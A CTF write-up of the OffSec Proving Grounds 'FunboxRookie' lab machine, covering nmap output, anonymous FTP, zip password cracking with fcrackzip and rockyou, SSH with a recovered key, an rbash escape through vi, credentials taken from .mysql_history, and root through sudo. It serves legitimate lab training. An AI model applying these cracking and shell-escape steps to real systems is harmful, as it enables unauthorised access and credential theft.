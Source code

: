 ```yaml
---
title: "Proving grounds Play: FunboxRookie"
layout: post
date: 2023-09-14 01:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```


## Nmap

```sh
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5e
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
| -r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
| -rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
|_-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f9467dfe0c4da97e2d77740fa2517251 (RSA)
|   256 15004667809b40123a0c6607db1d1847 (ECDSA)
|_  256 75ba6695bb0f16de7e7ea17b273bb058 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 1 disallowed entry 
|_/logs/
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web PORT: 80

![img](/assets/images/CTF/Proving_Grounds/FunboxRookie/web.png)

## FTP PORT: 21

```sh
lftp> ls
229 Entering Extended Passive Mode (|||63774|)
150 Opening ASCII mode data connection for file list
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
-r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
-rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
226 Transfer complete
```

Download all files and extract the files, which are password protected.

### Cracking password

```sh
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip
```

Use the above tool to crack the password, an alternative way to crack the password is to use `zip2john` tool to create hash for the zip files and then later use john to crack the hashes.

After trying to crack passwords for all the files, the process resulted in failure except for files `tom.zip` and `catherine.zip`.

![img](/assets/images/CTF/Proving_Grounds/FunboxRookie/crack.png)

Extract the zip files using the passwords and use the `id_rsa` key to login to the remote machine using SSH.

The user `tom` has restricted shell `rbash`. Use the below technique to bypass the restriction.

```sh
vi
:set shell=/bin/bash
:shell
```

The user has a `.mysql_history` file in the machine, which we can check for passwords.

```sh
tom@funbox2:~$ ls -al
total 48
drwxr-xr-x 5 tom  tom  4096 Sep 14 01:51 .
drwxr-xr-x 3 root root 4096 Jul 25  2020 ..
-rw------- 1 tom  tom    53 Sep 14 01:49 .bash_history
-rw-r--r-- 1 tom  tom   220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 tom  tom  3771 Apr  4  2018 .bashrc
drwx------ 2 tom  tom  4096 Sep 14 01:48 .cache
drwx------ 3 tom  tom  4096 Jul 25  2020 .gnupg
-rw------- 1 tom  tom  1675 Jul 25  2020 id_rsa
-rw-r--r-- 1 tom  tom    33 Sep 14 01:31 local.txt
-rw------- 1 tom  tom   295 Jul 25  2020 .mysql_history
-rw-r--r-- 1 tom  tom   807 Apr  4  2018 .profile
drwx------ 2 tom  tom  4096 Sep 14 01:52 .ssh
```

The file has the password for user tom.

```text
insert\040into\040support\040(tom,\040█████████);
```

## Privilege Escalation

After checking the permissions for the user tom he has ALL the permissions in the machine which allows us to get root shell using `sudo su` and user tom password.

```sh
User tom may run the following commands on funbox2:
    (ALL : ALL) ALL
```

![img](/assets/images/CTF/Proving_Grounds/FunboxRookie/root.png)

**Root obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).